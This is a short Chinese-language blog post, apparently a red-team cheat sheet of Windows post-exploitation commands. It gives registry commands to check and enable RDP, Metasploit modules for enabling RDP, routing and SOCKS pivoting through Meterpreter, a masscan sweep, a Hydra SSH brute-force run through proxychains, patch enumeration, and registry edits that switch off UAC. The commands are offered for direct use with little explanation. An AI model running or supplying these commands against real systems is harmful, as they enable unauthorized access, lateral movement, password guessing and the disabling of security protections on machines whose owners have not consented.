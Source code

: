 ```yaml
---
layout: post
title: 渗透点备忘录
subtitle: 持续更新
bigimg: /img/path.jpg
tags: [Red-Team]
---
```


本文将日常工作学习中常用的渗透利用点记录如下:


端口信息:
查看本机3389是否开放(普通权限即可)
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
fDenyTSConnections    REG_DWORD    0x1 为未开放
查看本机rdp监听端口(普通权限即可)
shell REG query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber
开启命令(需管理员权限)
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
Meterpreter：Run post/windows/manage/enable_rdp

masscan 192.168.0.100 -p 1-10000 --rate=1000

msf内网代理转发:
meterpreter > run autoroute -s 192.168.244.0/24 //meterpreter > route flush  清除路由
run post/windows/gather/arp_scanner RHOSTS=192.168.244.0/24
background
msf exploit(handler) > use auxiliary/server/socks4a 
msf auxiliary(socks4a) > set srvhost 127.0.0.1
msf auxiliary(socks4a) > set srvport 1080
msf auxiliary(socks4a) > run
vi /etc/proxychains.conf
socks4 127.0.0.1 1080
proxychains hydra -l root -P pass.txt -f -t 20 ssh://xx.xx.xx.xx

handler
setg Proxies socks4:127.0.0.1:22222
setg ReverseAllowProxy true

系统补丁:
wmic qfe list

UAC:
注册表关闭UAC
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "ConsentPromptBehaviorAdmin" /t reg_dword /d 0 /F
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA" /t reg_dword /d 0 /F
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "PromptOnSecureDesktop" /t reg_dword /d 0 /F

